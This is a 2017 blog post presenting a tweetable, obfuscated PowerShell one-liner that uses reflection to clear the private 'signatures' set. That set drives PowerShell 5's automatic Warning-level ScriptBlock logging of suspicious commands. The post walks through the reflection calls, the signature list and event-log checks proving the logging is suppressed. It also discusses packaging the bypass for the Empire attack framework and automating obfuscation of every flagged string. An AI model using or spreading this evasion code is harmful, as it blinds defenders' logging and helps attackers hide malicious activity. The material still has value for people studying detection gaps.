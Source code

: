 ```yaml
---
layout: post
title: "Bypass for PowerShell ScriptBlock Warning Logging of Suspicious Commands"
date: 2017-5-02 00:00:01 -0600
tags: PowerShell
---
```


## tl;dr

PowerShell 5.0+ automatically logs Warning level ScriptBlock EventLogs when executing "suspicious" commands commonly associated with malware, *even if ScriptBlock logging is not enabled*. This is a one-line bypass of that logging capability: (*note: there are limitations, please see the end of this post for more details*)

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

## Details

This bypass may look familiar to you. It was inspired by Matt Graeber's tweetable, one-line AMSI bypass:

![AMSI Bypass]({{site.baseurl}}/assets/images/graeber-amsi-bypass.png)

I figured his method of using reflection to interact with the AmsiUtils class and alter nonpublic, static fields could probably be applied in other nefarious ways. I've been down in a rabbithole of PowerShell obfuscation and ScriptBlock logging lately, and just recently discovered that PowerShell 5.0+ automatically logs "suspicious" commands commonly associated with malware to ScriptBlock logs with a **warning level** (even if ScriptBlock logging is not enabled!). This is a great source of evidence for defenders, so naturally I wanted to try to break it!

Digging through the open-source PowerShell 6.0 GitHub page, what I found is that PowerShell defines a list of strings that are considered "suspicious" and does some string matching to see if a given ScriptBlock contains any of them.

![Suspicious Strings]({{site.baseurl}}/assets/images/suspicious-strings.png)

[Check out the code yourself!](https://github.com/PowerShell/PowerShell/blob/v6.0.0-alpha.18/src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs#L1612-L1660)

Let's see if we can find a similar field in PowerShell 5! Using reflection, let's get a list of the nonpublic, static fields defined in the ScriptBlock class:
```
PS> [ScriptBlock].GetFields('NonPublic,Static')


Name                    : signatures
MetadataToken           : 67114066
FieldHandle             : System.RuntimeFieldHandle
Attributes              : Private, Static
FieldType               : System.Collections.Generic.HashSet`1[System.String]
MemberType              : Field
ReflectedType           : System.Management.Automation.ScriptBlock
DeclaringType           : System.Management.Automation.ScriptBlock
Module                  : System.Management.Automation.dll
IsPublic                : False
IsPrivate               : True
IsFamily                : False
IsAssembly              : False
IsFamilyAndAssembly     : False
IsFamilyOrAssembly      : False
IsStatic                : True
IsInitOnly              : False
IsLiteral               : False
IsNotSerialized         : False
IsSpecialName           : False
IsPinvokeImpl           : False
IsSecurityCritical      : True
IsSecuritySafeCritical  : False
IsSecurityTransparent   : False
CustomAttributes        : {}

...
(output truncated for brevity, you will see other fields)
```

This appears to be the field we are after. You'll notice the `Attribute` property is `Private, Static`. What we learned from Matt's AMSI bypass is that we can alter these private *static* fields using reflection! First, let's test if we can just grab that `signatures` value and see what's inside:

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null) | Select -First 10
Add-Type
DllImport
DefineDynamicAssembly
DefineDynamicModule
DefineType
DefineConstructor
CreateType
DefineLiteral
DefineEnum
DefineField
```

Great, we have confirmed that we are able to successfully grab the `signatures` field and we can see all the "suspicious" strings PowerShell is looking for. Now we just need to alter this value to a value we would prefer. How about an empty set?

```
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> [ScriptBlock].GetField('signatures','NonPublic,Static').GetValue($null)
PS> 
```

It worked! Just one small problem...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock].GetField('signatures','NonPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

```

**:(**

You may have noticed in that original list of signatures both `GetField` and `NonPublic` are flagged as suspicious. This is getting logged to a ScriptBlock warning level log **before** our bypass takes effect. If only I knew a tool that makes string matching PowerShell code difficult...

I actually ended up obfuscating this by hand, but I took obfuscation principles learned from [Invoke-Obfuscation](https;//github.com/danielbohannon/Invoke-Obfuscation) and put them to work on these two signatures to get the final result.

```
PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
```

And for completeness...

```
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 0
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :

PS> [ScriptBlock]."GetFiel`d"('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
PS> "NonPublic"
NonPublic
PS> Get-WinEvent -FilterHashtable @{ProviderName="Microsoft-Windows-PowerShell"; Id=4104} | Where {$_.LevelDisplayName -eq 'Warning'} | Measure

Count     : 1
Average   :
Sum       :
Maximum   :
Minimum   :
Property  :
```

And the final character count is 126 characters, so it is tweetable :)

## One Last Problem To Solve

So this all works great when using it at an interactive PowerShell prompt, the problem comes when trying to script it. My first thought was to throw this into Empire to test how effective it was. There are 2 main problems: One, if the one-liner bypass gets bundled with other code by PowerShell into a larger ScriptBlock, that code following the bypass could be found to be "suspicious" prior to the bypass taking effect. This is because the code is checked for suspicious strings prior to execution of the *entire* ScriptBlock *including the bypass*. Two, Empire creates a new PowerShell runspace for each module that is executed. When new runspaces are created, the runspace gets a newly initialized `signatures` variable that will catch strings in the given module. A way to combat this would be to prepend all modules with the bypass, but then again we run into problem #1 with code getting bundled with the bypass into a single ScriptBlock and still being scanned prior to execution of the bypass.

Given the flexibility of PowerShell in general, and my relatively little experience with the language, I'm sure there must be some solution to this problem. So this will serve as a **call for help to all you PowerShell wizards out there! :)**

## More Ideas

After using obfuscation to avoid Warning level logs for `GetField` and `NonPublic`, I realized this concept could probably be applied to *all* of the suspicious strings PowerShell is looking for. I think it would be fun to script this, and we could avoid Warning level logs even if this bypass is ever fixed (considering Matt's AMSI bypass still works a year later, this is doubtful to come soon) or no solution is found to the last problem I am facing in scripting the bypass. I will try to write a script to automate obfuscation for this, and post it when complete.

Also, it seems likely that using reflection to alter nonpublic fields has the potential for more abuse!